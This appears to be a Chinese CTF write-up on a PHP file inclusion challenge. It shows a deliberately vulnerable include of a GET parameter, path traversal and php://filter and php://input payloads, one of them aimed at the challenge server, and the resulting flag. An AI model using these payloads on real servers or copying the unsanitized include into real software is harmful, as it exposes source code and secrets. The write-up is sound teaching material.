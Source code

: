 ```yaml
---
layout:     post
title:      2019-04-08 收获 总结
subtitle:   BasicFileInclude解题
date:       2019-04-08
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```



## 0x1 题目要求
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1wp2y9jtdj30gl09t0sl.jpg)
注：-[题目中的连接](http://123.207.149.64:23338)
打开链接后的页面：
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g1wp2yapakj30f1064wee.jpg)

## 0x2 解题步骤

### 1. 原理
php文件包含函数（四个）过滤不严：require、require_once、include、include_once。
include和require区别主要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。

### 2. 文件包含漏洞的常见使用方法
1）php包含上传文件
```
<?php 
 $file = $_GET['page']; 
 include $file; 
?>
url?page=../../file.txt
```
2）php包含读文件
将php源码以base64编码的形式读出来，下面是一个payload的示例：
```
http://192.168.5.79/index.php?url=php://filter/read=convert.base64-encode/resource=flag
```
3） php包含写文件
要是想利用包含写文件，必须开启PHP的url_allow_
include远程URL功能，但是这个功能经过测试在5.3.0的时候已经用不了了，5.4.0直接废除了，因此在PHP 5.3.0一下版本才能实现。
```
url?page=php://input
```
### 3.利用方法2）解题
构造payload:
```
http://123.207.149.64:23338/?page=php://filter/read=convert.base64-encode/resource=flag
```
得到base64位加密后的代码：
```
aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=
```
利用-[在线工具解码](http://tool.oschina.net/encrypt?type=3)：
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1wp2ycr0hj30s50540sr.jpg)
得到flag:flag{really_basic_skill_web_dog_should_know}

